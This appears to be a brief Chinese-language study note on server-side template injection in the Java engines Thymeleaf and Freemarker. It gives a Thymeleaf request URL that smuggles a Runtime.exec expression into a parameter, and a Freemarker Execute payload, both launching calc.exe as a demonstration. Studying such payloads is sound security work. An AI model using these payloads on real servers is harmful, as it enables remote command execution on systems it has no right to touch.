





## 模板引擎Thymeleaf

修改版本再 maven





```
http://127.0.0.1:8080/index?name=123&lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__::.x
```



### Freemarker

必须在文件中有这个poc才行，不算漏洞只是支持这个语法





```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```

